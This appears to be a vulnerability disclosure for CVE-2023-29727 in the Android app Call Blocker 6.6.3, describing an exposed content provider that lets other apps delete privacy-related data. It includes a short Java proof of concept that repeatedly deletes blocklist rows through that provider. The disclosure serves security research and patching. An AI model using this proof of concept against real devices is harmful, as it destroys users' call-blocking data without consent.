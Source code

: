 ## Escalation of Privileges exists in Call Blocker（CVE-2023-29727）

Vendor：Fiorenza Francesco(https://www.call-blocker.info/)

Affected product：Call Blocker(com.cuiet.blockCalls)

Version：6.6.3

Download link： https://play.google.com/store/apps/details?id=com.cuiet.blockCalls

Description of the vulnerability for use in the CVE：The Call Blocker application 6.6.3 for Android allows unauthorized applications to use exposed components to delete data stored in its database that is related to user privacy settings and affects the implementation of the normal functionality of the application. An attacker can use this to cause an escalation of privilege attack.



poc：

```java
public void attack(){
	ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
	while (true) {
		Uri uri = Uri.parse("content://com.cuiet.blockCalls.ContProvBlockCalls/tbBlackList");
		String whereClause = "photo_uri=?";
		String[] whereArgs = new String[] { "123456" };
		contentResolver.delete(uri, whereClause, whereArgs);
	}
}
```



